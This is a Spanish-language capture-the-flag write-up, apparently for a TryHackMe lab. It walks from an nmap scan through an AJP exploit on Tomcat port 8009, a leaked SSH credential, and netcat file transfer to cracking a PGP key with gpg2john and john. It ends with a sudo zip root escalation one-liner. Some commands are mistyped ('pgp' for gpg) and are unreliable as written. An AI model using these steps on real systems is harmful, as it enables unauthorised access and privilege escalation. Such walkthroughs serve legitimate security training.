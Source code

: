 
### nmap
```python
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

### El puerto 8009 tiene un apache (protocol v1.3) esto se ve muy vulnerable asi que buscaremos exploit en internet. 
conseguimos uno en python vamos a probarlo.
![[Pasted image 20231108220910.png]]
![[Pasted image 20231108221204.png]]

### Username
```python
	skyfuck:8730281lkjlkjdqlksalks
```
### intentamos entrar en el puerto ssh con las credenciales que hemos conseguido
![[Pasted image 20231108222709.png]]

### tenemos dos archivos interesantes asi que los enviaremos a nuestra maquina. usando netcat.
maquina atacante
![[Pasted image 20231108225042.png]]
maquina victima
![[Pasted image 20231108225117.png]]

### usaremos gpg2john para sacar el hash del archivo y despues lo usaremos para pasarle a john de la siguiente forma
```python
	gpg2john tryhackme > hash.txt

	luego usaremos has para pasarlo a john

	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20231108225457.png]]
### usando la herramienta pgp vamos a desencrictar los hahs 
```python
	pgp --import tryhachme.asc
	pgp --decrypt credential.pgp
```
usaremos las credenciales de alexandru
![[Pasted image 20231108233123.png]]

### obtenemos otro usuario llamado merlin con lo que parece su clave.
veremos si tenemos permisos sudos con sudo -l
![[Pasted image 20231108235244.png]]
### podemos hacer todo sobre el archivo zip. asi que aprovecharemos esto para escalar provilegios
```python
	sudo zip $TF /etc/hosts -T -TT 'sh #'
	sudo rm $TF
```
cambiaremos el "zip" por la ruta absoluta donde esta nuestro zip. en este caso /usr/bin/zip
![[Pasted image 20231108235752.png]]
### Ahora somos Root.
